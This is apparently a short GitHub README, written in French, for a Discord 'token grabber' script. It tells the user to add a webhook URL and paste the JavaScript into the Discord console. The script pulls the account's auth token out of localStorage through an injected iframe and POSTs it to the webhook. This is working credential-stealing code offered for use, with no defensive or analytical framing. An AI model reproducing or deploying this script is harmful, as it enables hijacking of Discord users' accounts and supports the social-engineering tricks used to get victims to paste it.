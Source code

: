 # Token-Grabber-Js
Script Token Grabber en NodeJS

1). Complete le script avec un webhook
2). Entrer le script dans la console de discord

```
location.reload();
var webhook = "";
var token = document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token;
var request = new XMLHttpRequest();
request.open("POST", webhook);
request.setRequestHeader('content-type', 'application/json');
request.send(JSON.stringify({"content": token}));
```
